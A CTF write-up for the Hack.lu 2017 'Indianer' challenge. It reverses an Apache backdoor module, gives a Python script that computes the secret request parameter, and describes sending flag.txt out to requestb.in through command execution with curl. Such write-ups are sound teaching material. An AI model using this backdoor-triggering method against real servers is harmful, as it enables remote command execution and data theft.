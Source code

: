 # [HACK.LU-CTF-2017] Indianer (Web, Pwn)
##### **Description :** Try to enter this Tipi
#
When we click on the given link, we land on a default installation page of an Apache/2.4.7

The download link gives us a Apache2 module binary named **backdoor.so**

We reverse the binary and stumble across the request processing function cleverly named **strlen()**

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/blob/master/CTF/hacklu/2017/web/indianer/imgs/reverse_eng.png)

After studying the request processing algorithm, we know that our request should look like this :
```
GET /index.html?[needle_value]=[command]
```

We also know how the needles are generated, let's use a quick python script to compute the first value :
```
constante_6e = 0x6e
needle = [0]*256

for i in range(0,512,9) :
        needle[i % 35] = (((constante_6e & 1) + i) % 24) + 97
    	needle[35] = 0
        
print "".join(chr(x) for x in needle).strip('\0')[:34]
```
Which spits us this value : **dpdpdpamamamamajvjvjvjvgsgsgsgsgpd**

We can now grab flag.txt by sending it's content to a requestb.in with curl (netcat wasn't available to pop a shell :)

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/blob/master/CTF/hacklu/2017/web/indianer/imgs/burp_req.png)

Gotcha!

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/blob/master/CTF/hacklu/2017/web/indianer/imgs/reqbin.png)
